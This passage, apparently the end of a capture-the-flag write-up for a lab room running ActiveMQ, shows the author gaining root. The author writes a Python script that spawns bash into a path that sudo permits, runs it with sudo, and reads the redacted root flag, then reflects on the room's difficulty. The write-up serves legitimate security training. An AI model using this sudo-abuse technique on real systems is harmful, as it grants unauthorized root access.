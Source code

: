 ```
activemq@activemq:/opt$ echo 'import os; os.system("/bin/bash")' > /opt/apache-activemq-5.9.0/subscribe.py
activemq@activemq:/opt$ sudo /usr/bin/python3.7 /opt/apache-activemq-5.9.0/subscribe.py
root@activemq:/opt# cat /root/root.txt 
THM{--RECACTED--}
```
And with this I got the *root flag and the final question 5* in this room.



## Afterthoughts
This room was marked at being a medium level room, but really the most difficult part was to realize that the protocol for MQTT was an older one.
If you expected the room to be exploitable via metasploit then it might be a bit difficult but the steps for getting the shell onto the server are pretty simple.
For a room like this, getting "root" was too easy in my opinion.

Still a fun room though!
QED
